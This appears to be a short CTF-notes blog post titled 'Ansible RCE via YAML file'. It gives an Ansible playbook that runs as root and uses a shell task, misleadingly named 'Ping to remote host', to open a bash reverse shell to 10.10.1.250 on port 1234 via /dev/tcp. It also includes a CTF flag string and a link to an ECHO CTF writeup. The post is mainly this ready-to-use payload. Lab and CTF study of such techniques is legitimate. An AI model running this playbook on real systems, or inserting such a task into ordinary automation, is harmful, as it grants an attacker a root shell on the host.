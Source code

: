 ```yaml
---
description: >-
  Ansible RCE via YAML file
title: Ansible RCE via YAML file              # Add title here
date: 2022-08-11 08:00:00 -0600                           # Change the date to match completion date
categories: [05 Utilities, Ansible RCE via YAML file]                     # Change Templates to Writeup
tags: [utilities, ansible, yaml, rce]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### YML RCE
Example to obtain a reverse shell using test.yml file:
```yaml
---
- name: Display known facts for host
  hosts: 127.0.0.1
  sudo: true
  sudo_user: root
  connection: local
  gather_facts: false
  tasks:
  - name: Ping to remote host
    shell:
        "bash -c 'bash -i >& /dev/tcp/10.10.1.250/1234 0>&1'"
  - name: Display all variables/facts known for a host (ETSCTF_eaef34dcbadbe832d98163f825a98a51)
    debug:
      var: hostvars[inventory_hostname]
      verbosity: 4
```
> Consider identation.
{: .prompt-info }
Examples:
[ECHO CTF martin](https://echoctf.red/target/8/writeup/read/60)